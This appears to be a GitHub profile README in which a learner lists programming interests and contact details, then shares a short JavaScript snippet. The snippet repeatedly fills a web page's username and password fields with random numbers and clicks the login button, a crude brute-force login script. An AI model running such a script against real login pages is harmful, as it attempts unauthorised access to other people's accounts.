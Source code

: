 - 👋 Hi, I’m @H4YKM
- 👀 I’m interested in programming, motion design, web developing, web design & more
- 🌱 I’m currently learning JavaScript, Vue, React, Angular, Node, Express & more!
- 💞️ I’m looking to collaborate on courses and code
- 📫 How to reach me haykm2006@gmail.com

Last code:

```js
const login = document.getElementById('username')
const password = document.getElementById('password')
const button = document.querySelector('.fadeIn.third.shadow')

function generateRandomInteger(min, max) {
    return Math.floor(min + Math.random() * (max + 1 - min))
}

setInterval(() => {
        const number = generateRandomInteger(10000, 50000) // Max number, min number
        login.value = number
        password.value = number

        console.log('Hacking...')
        button.click()
    }, 200) // Change interval
```
